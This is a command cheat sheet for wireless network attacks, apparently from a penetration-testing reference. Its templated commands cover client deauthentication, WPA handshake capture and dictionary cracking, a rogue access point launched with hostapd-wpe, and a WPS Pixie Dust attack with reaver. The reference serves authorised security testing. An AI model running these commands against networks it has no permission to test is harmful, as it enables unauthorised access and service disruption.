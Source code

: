 # wifi

#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## airmon - Kill processes which can cause trouble
```
airmon-ng check kill
```

## airmon - start interface
```
airmon-ng start <wlan_interface>
```

## airmon - stop interface
```
airmon-ng stop <wlanmon_interface>
```

## NetworkManager - Restart NetworkManager
```
systemctl restart NetworkManager
```

## airodump - listen to everything
```
airodump-ng <wlanmon_interface>
```

## airodump - listen to specific SSID
```
airodump-ng --bssid <mac_address> -c <channel> -w <output_file> <wlanmon_interface>
```

## aireplay - deauth client
```
aireplay-ng --deauth <deauth_count> -c <client_mac_address> -a <mac_address> <wlanmon_interface>
```

## aircrack - crack handshake for PSK
```
aircrack-ng -w <dictionary> <input_file>
```

## hostapd-wpe - launch fake AP
```
hostapd-wpe <hostapd_conf>
```

## kismet - monitor WiFi
```
kismet -c <wlan_interface>
```

## nmcli - set back WiFi interface to managed mode
```
nmcli device set <wlan_interface> managed true
```

## reaver - launch WPS pixiedust attack
```
reaver -i <wlanmon_interface> -b <mac_address> -c <channel> -Z
```

= wlan_interface: wlan0
= wlanmon_interface: wlan0mon
= deauth_count: 5
= hostapd_conf: /etc/hostapd-wpe/hostapd-wpe.conf

